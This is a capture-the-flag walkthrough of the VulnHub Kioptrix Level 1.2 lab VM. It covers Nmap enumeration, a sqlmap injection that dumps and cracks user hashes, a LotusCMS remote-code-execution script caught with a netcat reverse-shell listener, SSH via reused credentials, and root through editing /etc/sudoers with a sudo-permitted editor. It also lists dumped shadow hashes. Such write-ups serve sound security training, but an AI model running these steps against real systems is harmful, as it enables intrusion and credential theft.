

# [[VulnHub] Kioptrix: Level 1.2 (#3)](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

**Date**: 29/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_lotuscms`](https://github.com/7h3rAm/writeups#exploit_lotuscms), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo)  

## Overview
This is a writeup for VulnHub VM [`Kioptrix: Level 1.2 (#3)`](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Sat Sep 28 20:47:08 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix3/results/192.168.92.184/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix3/results/192.168.92.184/scans/xml/_quick_tcp_nmap.xml 192.168.92.184
Nmap scan report for 192.168.92.184
Host is up, received arp-response (0.00090s latency).
Scanned at 2019-09-28 20:47:09 PDT for 9s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAL4CpDFXD9Zn2ONktcyGQL37Dn6s9JaOv3oKjxfdiABm9GjRkLEtbSAK3vhBBUJTZcVKYZk21lFHAqoe/+pLr4U9yOLOBbSoKNSxQ2VHN9FOLc9C58hKMF/0sjDsSIZnaI4zO7M4HmdEMYXONrmj2x6qczbfqecs+z4cEYVUF3R3AAAAFQCuG9mm7mLm1GGqZRSICZ+omMZkKQAAAIEAnj8NDH48hL+Pp06GWQZOlhte8JRZT5do6n8+bCgRSOvaYLYGoNi/GBzlET6tMSjWMsyhVY/YKTNTXRjqzS1DqbODM7M1GzLjsmGtVlkLoQafV6HJ25JsKPCEzSImjeOCpzwRP5opjmMrYBMjjKqtIlWYpaUijT4uR08tdaTxCukAAACBAJeJ9j2DTugDAy+SLCa0dZCH+jnclNo3o6oINF1FjzICdgDONL2YbBeU3CiAL2BureorAE0lturvvrIC2xVn2vHhrLpz6NPbDAkrLV2/rwoavbCkYGrwXdBHd5ObqBIkoUKbI1hGIGA51nafI2tjoXPfIeHeNOep20hgr32x9x1x
|   2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAyOv6c+5ON+N+ZNDtjetiZ0eUxnIR1U0UqSF+a24Pz2xqdnJC1EN0O3zxGJB3gfPdJlyqUDiozbEth1GBP//8wbWsa1pLJOL1YmcumEJCsitngnrVN7huACG127UjKP8hArECjCHzc1P372gN3AQ/h5aZd0VV17e03HnAJ64ZziOQzVJ+DKWJbiHoXC2cdD1P+nlhK5fULe0QBvmA14gkl2LWA6KILHiisHZpF+V3X7NvXYyCSSI9GeXwhW4RKOCGdGVbjYf7d93K9gj0oU7dHrbdNKgX0WosuhMuXmKleHkIxfyLAILYWrRRj0GVdhZfbI99J3TYaR/yLTpb0D6mhw==
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 99EFC00391F142252888403BB1C196D2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:3F:EF:00 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 28 20:47:18 2019 -- 1 IP address (1 host up) scanned in 10.35 seconds

```

2\. We added an entry for this target within `/etc/hosts` file:  
``` {.python .numberLines}
tail -2 /etc/hosts
  192.168.92.184  kioptrix3.com

```

  

3\. We find a login page at the following url: `http://kioptrix3.com/index.php?system=Admin`  

  

4\. We find that the underlying CMS is `LotusCMS` and use searchsploit to look for any exploits. There were two hits but nothing useful as using Metasploit is out of scope for this writeup. We decided to look for non-MSF versions of the remote code execution exploit for `LotusCMS`:  
``` {.python .numberLines}
searchsploit lotuscms

```

  

5\. We also find a gallery application hosted on the following url: `http://kioptrix3.com/gallery/`. We test this application for SQLi using `sqlmap` and are able to dump the `dev_accounts` table from the `gallery` database. This table lists unsalted MD5 hashes for users `dreg` and `loneferret` that are auto-cracked by `sqlmap`:  
``` {.python .numberLines}
sqlmap --batch -u "http://kioptrix3.com/gallery/gallery.php?id=null" --dump
  Database: gallery
  Table: dev_accounts
  [2 entries]
  +----+------------+---------------------------------------------+
  | id | username   | password                                    |
  +----+------------+---------------------------------------------+
  | 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
  | 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
  +----+------------+---------------------------------------------+

```

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh   |  OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
```
#### Users
``` {.python .numberLines}
lotuscms: dreg, loneferret
```

\newpage
## Phase #2: Exploitation
1\. We find a remote code execution [exploit on GitHub](https://github.com/Hood3dRob1n/LotusCMS-Exploit) for `LotusCMS` and decide to use it. This exploit gives us a reverse shell that we can catch using `netcat`:  
``` {.python .numberLines}
nc -nlvp 443
./lotusRCE.sh kioptrix3.com

```

  

  

2\. We can also `ssh` as users `dreg` or `loneferret` into the target system using the credentials we dumped from the `LotusCMS` database. This is possible because these users have reused their CMS credentials for local system access:  
``` {.python .numberLines}
ssh dreg@192.168.92.184
ssh loneferret@192.168.92.184

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
loneferret@Kioptrix3> id
uid=1000(loneferret) gid=100(users) groups=100(users)
loneferret@Kioptrix3>  
loneferret@Kioptrix3> uname
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
loneferret@Kioptrix3>  
loneferret@Kioptrix3> ifconfig
eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
      link/ether 00:0c:29:3f:ef:00 brd ff:ff:ff:ff:ff:ff
      inet 192.168.92.184/24 brd 192.168.92.255 scope global eth1
      inet6 fe80::20c:29ff:fe3f:ef00/64 scope link
         valid_lft forever preferred_lft forever
loneferret@Kioptrix3>  
loneferret@Kioptrix3> users
root
loneferret
dreg
```

\newpage
## Phase #3: Privilege Escalation
1\. We continue as user `loneferret` since this user has an interesting `sudo` entry:  
``` {.python .numberLines}
sudo -l
  User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht

```

  

2\. We find that the user `loneferret` can run the `ht` editor with `sudo` privileges and as such can modify any system file. We decide to open the `/etc/sudoers` file and edit the entry for user `loneferret` and give this user unrestricted `sudo` access:  
``` {.python .numberLines}
sudo ht
  /etc/sudoers
    loneferret ALL=(ALL) ALL

```

  

3\. Once the above changeas are done, we can now switch to `root` to complete the challenge:  
``` {.python .numberLines}
sudo su

```

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$1$QAKvVJey$6rRkAMGKq1u62yfDaenUr1:15082:............
loneferret:$1$qbkHf53U$r.kK/JgDLDcXGRC6xUfB11:15079.............
dreg:$1$qAc2saWZ$Y567sEs.ql3GMttI6pvoe0:15080:............
```
### Credentials
``` {.python .numberLines}
lotuscms: dreg/Mas..., loneferret/star....
mysql: root/fucke...
ssh: dreg/Mas..., loneferret/star....
```

## References
[+] <https://www.vulnhub.com/entry/kioptrix-level-12-3,24/>  
[+] <https://v3ded.github.io/ctf/kioptrix3.html>  
[+] <https://www.abatchy.com/2016/12/kioptrix-3-walkthrough-vulnhub>  
